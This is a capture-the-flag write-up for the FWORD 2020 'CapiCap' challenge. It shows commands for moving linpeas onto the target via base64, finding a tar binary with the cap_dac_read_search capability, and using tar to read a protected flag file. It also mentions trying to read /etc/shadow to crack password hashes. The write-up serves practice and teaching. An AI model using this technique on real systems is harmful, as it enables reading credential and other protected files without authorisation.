 # fword-ctf-writeups
Writeup for FWORD 2020 CTF


---
CapiCap
---
This challenge was quit nice, i actually spent a great deal of time just to put linpeas on the box, i ended up converting the linpeas script to base64, then copied and pasted it in the machine using echo (there's probably a better way to do this, but i was too lazy to think of anything else)
so at my attack machine:
`cat linpeas.sh | base64 > linpeas.b64`
copy the result
on target host:
`echo "base64 string" > linenum.b64`
`cat linpeas.b64 | base64 -d > linpeas.sh`

at first time i missed it, so it took me quit some time,
actually the name of the challenge gives us a hint.
running the following:
`getcap -r / 2>/dev/null`

gives us:
`/usr/bin/tar = cap_dac_read_search+ep`

this caught my attention as i do not normally see this.
after doing some research, i found out that this actually gives tar premission to read any file!

so i initially tried to read /etc/shadow and crack the hast- that got me nowhere.
it took me a minute to realize i just need the flag.txt file!
so doing this:
`cd /tmp` #so we will be somewhere with write premissions
`tar -cvf flag.tar ~/flag.txt` # read the flag file from the home directory, and store it in flag.tar
`tar -xvf flag.tar` # extract the flag file
now we can:
`cat /tmp/home/user1/flag.txt`
`FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}`
and we got the flag!


